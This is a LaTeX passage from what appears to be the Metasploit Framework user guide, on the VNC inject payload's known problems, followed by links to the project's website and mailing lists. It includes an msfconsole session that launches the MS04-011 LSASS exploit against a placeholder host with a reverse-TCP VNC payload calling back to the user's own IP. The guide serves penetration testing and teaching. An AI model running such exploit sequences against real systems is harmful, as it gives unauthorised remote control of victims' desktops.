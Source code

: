 \documentclass{report}
\begin{document}
\par
There are a few situations where the VNC inject payload
will simply not work. These problems are often cause by strange execution
environments or other issues related to a specific exploit or injection method.
These issues will be addressed as time permits:
\begin{itemize}
	\item The windows/brightstor/universal\_agent exploit will cause the VNC payload to
	crash, possibly due to a strange heap state.
\end{itemize}

\begin{verbatim}
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > set RHOST some.vuln.host
RHOST => some.vuln.host
msf exploit(ms04_011_lsass) > set PAYLOAD windows/vncinject/reverse_tcp
PAYLOAD => windows/vncinject/reverse_tcp
msf exploit(ms04_011_lsass) > set LHOST your.own.ip
LHOST => your.own.ip
msf exploit(ms04_011_lsass) > set LPORT 4321
LPORT => 4321
msf exploit(ms04_011_lsass) > exploit
\end{verbatim}

If the "vncviewer" application is in your path and the AUTOVNC option has been
set (it is by default), the Framework will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0}, then use
vncviewer to connect to 127.0.0.1 on port 5900. 

\pagebreak
\chapter{More Information}


\section{Web Site}
\par
The metasploit.com web site is the first place to check for updated modules and
new releases. This web site also hosts the Opcode Database and a decent shellcode
archive.  

\section{Mailing List}
\par
Metasploit hosts two mailing lists -- Framework and Framework-Hackers. You can find
information about these mailing lists, along with their archives, at the following URL:
\url{http://spool.metasploit.com/}
\end{document}
